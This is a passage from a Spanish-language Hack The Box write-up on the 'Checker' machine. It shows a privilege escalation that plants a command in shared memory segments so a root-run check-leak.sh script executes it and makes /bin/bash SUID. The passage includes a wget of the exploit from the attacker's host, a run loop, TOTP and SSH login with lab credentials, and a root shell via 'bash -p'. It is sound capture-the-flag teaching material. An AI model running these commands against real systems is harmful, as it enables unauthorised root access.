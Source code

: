 Inicio un bucle continuo que genera segmentos de memoria compartida con el payload incrustado, de manera que alguno de esos segmentos coincida con el valor de `rand() % 0xfffff` usado por `check_leak`, explotando así la falta de verificación de existencia previa.

```terminal
reader@checker:/tmp$ wget http://10.10.15.88:8000/exploit
reader@checker:/tmp$ chmod +x exploit 
reader@checker:/tmp$ while true; do ./exploit; done
```

```terminal
/home/kali/Documents/htb/machines/checker:-$ oathtool -b --totp DVDBRAODLCWF7I2ONA4K5LQLUE
009103

/home/kali/Documents/htb/machines/checker:-$ ssh reader@checker.htb
(reader@checker.htb) Password: hiccup-publicly-genesis
(reader@checker.htb) Verification code: 009103
```

Desde otra sesión, ejecuto el script vulnerable. Al encontrar uno de los segmentos escritos por el exploit, el contenido es procesado directamente como input, activando el comando embebido y modificando los permisos de `/bin/bash`.

```terminal
reader@checker:~$ while true; do sudo /opt/hash-checker/check-leak.sh bob; done
Password is leaked!
Using the shared memory 0x34ECE as temp location
ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"' at line 1
Failed to read result from the db
```

Verifico que el bit SUID ha sido activado exitosamente en `/bin/bash`. Y ejecuto una shell privilegiada utilizando `bash -p`, obteniendo una sesión como `root`.

```terminal
reader@checker:~$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1396520 Mar 14  2024 /bin/bash

reader@checker:~$ bash -p
bash-5.1# id
uid=1000(reader) gid=1000(reader) euid=0(root) egid=0(root) groups=0(root),1000(reader)

bash-5.1# cat /root/root.txt
```

> <a href="https://labs.hackthebox.com/achievement/machine/1521382/649" target="_blank">***Litio7 has successfully solved Checker from Hack The Box***</a>
{: .prompt-info style="text-align:center" }